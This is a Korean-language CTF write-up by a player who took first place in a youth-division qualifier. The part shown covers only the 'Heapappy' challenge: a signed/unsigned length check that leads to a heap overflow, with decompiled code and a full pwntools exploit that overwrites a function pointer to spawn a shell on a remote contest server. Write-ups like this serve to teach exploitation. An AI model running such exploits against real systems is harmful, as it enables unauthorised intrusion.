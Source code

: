 ![[Pasted image 20250817185028.png]]

예선 1등으로 본선에 간다. 청소년부에 폰은 총 6문제 출제되었다. (Heapappy : 250, book : 487, Artisan : 86, Chain : 962, Time Capsule : 962, MyBlog : 1000(0 Solve)) 대회 진행 중 마지막 문제를 제외한 5문제를 풀었다. MyBlog도 조금만 집중하면 풀 수 있었을 거 같은데 커널 문제를 풀 때 조건을 제대로 확인하지 않아서 두 시간을 날리기도 했고, 우리 팀 리버서도 나를 도와줄 정신 상태가 아니어서 깔끔하게 접고 쉬었다. 각설하고 풀이를 적어보겠다.

---
## 목차

1. Heapappy
2. book
3. Artisan
4. Chain
5. Time Capsule

---

# Heapappy

```bash
[*] '/mnt/d/cce/qual/Heapappy/prob'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

PIE가 꺼져 있고 Partial RELRO이다.

```C
unsigned __int64 prompt()
{
  unsigned __int64 v1; // [rsp+0h] [rbp-40h]
  char nptr[40]; // [rsp+10h] [rbp-30h] BYREF
  unsigned __int64 v3; // [rsp+38h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  v1 = 0LL;
  printf("Choice: ");
  while ( v1 <= 0x1E && fread(&nptr[v1], 1uLL, 1uLL, stdin) == 1 )
  {
    if ( nptr[v1] == 10 )
    {
      nptr[v1] = 0;
      break;
    }
    ++v1;
  }
  nptr[v1] = 0;
  return strtoul(nptr, 0LL, 10);
}

unsigned __int64 __fastcall input(__int64 a1, unsigned __int64 a2)
{
  char ptr; // [rsp+17h] [rbp-19h] BYREF
  unsigned __int64 i; // [rsp+18h] [rbp-18h]
  size_t v5; // [rsp+20h] [rbp-10h]
  unsigned __int64 v6; // [rsp+28h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  for ( i = 0LL; ; ++i )
  {
    if ( i >= a2 )
      return i;
    v5 = fread(&ptr, 1uLL, 1uLL, stdin);
    if ( v5 != 1 )
      break;
    if ( ptr == 10 )
      return i;
    *(_BYTE *)(i + a1) = ptr;
  }
  if ( feof(stdin) )
    fwrite("ERROR: Reached EOF\n", 1uLL, 0x13uLL, stderr);
  else
    fwrite("ERROR: fread failed\n", 1uLL, 0x14uLL, stderr);
  return i;
}

int adopt()
{
  __int64 v1; // [rsp+0h] [rbp-10h]

  if ( pet )
    return puts("Already adopted.");
  pet = malloc(0x28uLL);
  if ( !pet )
    exit(1);
  memset(pet, 0, 0x28uLL);
  *((_DWORD *)pet + 6) = 0;
  *((_QWORD *)pet + 4) = act_tutorial;
  printf("Name length: ");
  v1 = prompt();
  if ( v1 > 24 )
    return puts("Name too long.");
  printf("Name bytes: ");
  input((__int64)pet, v1);
  return puts("Adopted.");
}
```

`adopt` 함수에서 이름의 길이 변수인 `v1`이 `signed __int64` 임을 알 수 있다. 따라서 음수를 입력하면 조건문을 통과한다. 그런데 `input` 함수에서는 `rsi`를 `unsigned __int64`로 해석하고 있으므로 `heap overflow`가 발생한다.

```C
int perform_ritual()
{
  if ( pet )
    return (*((__int64 (__fastcall **)(void *))pet + 4))(pet);
  else
    return puts("Adopt first.");
}
```

`perform_ritual` 함수에서 `heap`에 있는 함수 포인터를 참조하여 실행하는 부분이 있으므로 이를 `win` 함수로 덮어 쉘을 딴다.

### ex.py

```python
from pwn import *
import argparse

parser = argparse.ArgumentParser()
parser.add_argument('-r', '--remote', action='store_true', help='Connect to remote server')
parser.add_argument('-g', '--gdb', action='store_true', help='Attach GDB debugger')
args = parser.parse_args()

gdb_cmds = [
    'b *$rebase(0x000000000001568)',
    'c'
]

binary = './prob'
 
context.binary = binary
context.arch = 'amd64'
# context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']

if args.remote:
    p = remote("3.38.164.12", 3030)
else:
    p = process(binary)
    if args.gdb:
        gdb.attach(p, '\n'.join(gdb_cmds))

p.sendlineafter(b'Choice: ', b'1')
p.sendlineafter(b'Choice: ', b'-1')
p.sendlineafter(b': ', b'a' * 0x20 + p64(0x40184d))
p.sendlineafter(b'Choice: ', b'3')

p.interactive()
```